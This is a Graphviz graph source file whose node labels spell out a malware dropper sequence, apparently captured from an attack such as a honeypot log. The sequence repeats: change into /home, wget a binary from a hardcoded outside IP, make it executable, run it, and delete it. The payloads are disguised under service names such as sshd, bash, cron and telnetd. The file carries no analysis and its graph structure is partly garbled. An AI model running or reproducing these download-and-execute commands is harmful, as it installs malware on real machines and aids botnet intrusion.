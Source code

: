 digraph {
120 [label="cd /home "];
120 -> 120
2 [label="wget http://94.177.218.245/ntpd "];
2 -> 4 [label=";,"];
4 [label="chmod +x ntpd "];
4 -> 6 [label=";,"];
6 [label="./ntpd "];
6 -> 8 [label=";,"];
8 [label="rm -rf ntpd "];
8 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
12 [label="wget http://94.177.218.245/sshd "];
12 -> 14 [label=";,"];
14 [label="chmod +x sshd "];
14 -> 16 [label=";,"];
16 [label="./sshd "];
16 -> 18 [label=";,"];
18 [label="rm -rf sshd "];
18 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
22 [label="wget http://94.177.218.245/openssh "];
22 -> 24 [label=";,"];
24 [label="chmod +x openssh "];
24 -> 26 [label=";,"];
26 [label="./openssh "];
26 -> 28 [label=";,"];
28 [label="rm -rf openssh "];
28 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
32 [label="wget http://94.177.218.245/bash "];
32 -> 34 [label=";,"];
34 [label="chmod +x bash "];
34 -> 36 [label=";,"];
36 [label="./bash "];
36 -> 38 [label=";,"];
38 [label="rm -rf bash "];
38 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
42 [label="wget http://94.177.218.245/tftp "];
42 -> 44 [label=";,"];
44 [label="chmod +x tftp "];
44 -> 46 [label=";,"];
46 [label="./tftp "];
46 -> 48 [label=";,"];
48 [label="rm -rf tftp "];
48 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
52 [label="wget http://94.177.218.245/wget "];
52 -> 54 [label=";,"];
54 [label="chmod +x wget "];
54 -> 56 [label=";,"];
56 [label="./wget "];
56 -> 58 [label=";,"];
58 [label="rm -rf wget "];
58 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
62 [label="wget http://94.177.218.245/cron "];
62 -> 64 [label=";,"];
64 [label="chmod +x cron "];
64 -> 66 [label=";,"];
66 [label="./cron "];
66 -> 68 [label=";,"];
68 [label="rm -rf cron "];
68 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
72 [label="wget http://94.177.218.245/ftp "];
72 -> 74 [label=";,"];
74 [label="chmod +x ftp "];
74 -> 76 [label=";,"];
76 [label="./ftp "];
76 -> 78 [label=";,"];
78 [label="rm -rf ftp "];
78 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
82 [label="wget http://94.177.218.245/pftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x pftp "];
84 -> 86 [label=";,"];
86 [label="./pftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf pftp "];
88 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
92 [label="wget http://94.177.218.245/sh "];
92 -> 94 [label=";,"];
94 [label="chmod +x sh "];
94 -> 96 [label=";,"];
96 [label="./sh "];
96 -> 98 [label=";,"];
98 [label="rm -rf sh "];
98 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
102 [label="wget http://94.177.218.245/  "];
102 -> 104 [label=";,"];
104 [label="chmod +x   "];
104 -> 106 [label=";,"];
106 [label="./  "];
106 -> 108 [label=";,"];
108 [label="rm -rf   "];
108 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
112 [label="wget http://94.177.218.245/apache2 "];
112 -> 114 [label=";,"];
114 [label="chmod +x apache2 "];
114 -> 116 [label=";,"];
116 [label="./apache2 "];
116 -> 118 [label=";,"];
118 [label="rm -rf apache2 "];
118 -> 120 [label=";,"];
120 [label="cd /home "];
120 -> 120
122 [label="wget http://94.177.218.245/telnetd "];
122 -> 124 [label=";,"];
124 [label="chmod +x telnetd "];
124 -> 126 [label=";,"];
126 [label="./telnetd "];
126 -> 127 [label=";,"];
}
